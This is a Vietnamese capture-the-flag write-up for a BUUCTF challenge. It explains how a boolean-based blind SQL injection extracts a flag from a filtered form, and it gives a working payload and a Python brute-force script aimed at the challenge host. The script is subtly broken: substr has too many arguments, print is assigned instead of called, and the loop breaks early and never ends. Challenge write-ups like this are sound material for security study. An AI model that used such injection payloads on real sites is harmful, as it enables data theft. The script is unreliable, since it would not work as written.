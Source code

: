 Challenge cho ta 1 form để sumbit, và cho biết table, column là `flag`. Sau đó mình thử sumbit đại 

```
id = 1 ---> Hello, glzjin wants a girlfriend.
id = 2 --->  Do you want to be my girlfriend?
id = 3,4,..... ---> Error Occured When Fetch Result.
```
Bởi vì bài này có tag là sql nên mình thử fuzz một vài payload.

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/840a05dd-5ea1-457b-a79e-f7ee2fe53e67)

Nhưng mà bị filter gần hết. Sau đó thì mình có thử boolean

```
1=1 ---> Hello, glzjin wants a girlfriend. /// 	select * from abc where id = 1 = 1 /// select * from xxx where id = 1 = TRUE;

1=2 ---> Error Occured When Fetch Result.
1=0 --->  Do you want to be my girlfriend? /// select * from abc where id = 1 = 0 /// select * from xxx where id = 1 = FALSE;
```

Bởi vì là trong SQL 1 là TRUE và 2 là FLASE. Như vậy khi mình nhập 1=1 có nghĩa là `1=TRUE` thì trả về `id=1`, còn với 1=0 nghĩa là `id=1=Fasle` nên trả về `id=2`.Bởi vì 2 chỉ là 1 số bình thường nên khi nhập `1=2` sẽ trả về lỗi

Payload:
`1=(ascii(substr((select(flag)from(flag)),1,1))=100)`

Kết quả trả về là ` Do you want to be my girlfriend?` là FALSE nên payload này đúng.

```python
import requests
s = requests.session()
url = "http://a146b56f-b5b5-4d88-a61c-492aff01376a.node4.buuoj.cn:81/index.php"
pos = 0
flag = ''
while True:
    pos += 1
    for i in range(45,127):
        payload = f"1=(ascii(substr((select(flag)from(flag)),1,{pos},1))={i})"
        print = ("testing"+chr(i))
        r = s.post(url, data={'id':payload})
        if "glzjin" in r.text:
            flag+=chr(i)
            break
        else:
            break
        print(flag)

```

